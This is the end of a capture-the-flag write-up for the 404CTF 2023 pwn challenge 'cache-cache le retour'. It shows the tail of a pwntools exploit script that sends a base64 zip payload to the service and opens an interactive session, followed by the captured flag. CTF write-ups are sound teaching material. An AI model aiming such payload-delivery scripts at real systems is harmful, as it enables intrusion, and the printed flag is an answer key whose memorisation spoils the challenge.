 ```python
        print(sms)
        p.sendline(b"UEsDBAoAAAAAANGIwVaLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAP6s3hk+rN4ZHV4CwABBOgDAAAE6wMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAANGIwVaLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAA/qzeGR1eAsAAQToAwAABOsDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA")
        print(p.recv())
        break

print('terminate')
p.interactive()
```

## Flag

![flag](/assets/img/CTFs/404CTF2023/pwn/cache-cache_le_retour/flag.png)

We have the flag 🥳 !

Flag: 404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}

## Conclusion

I hope you understood and learned some things in this writeup.

















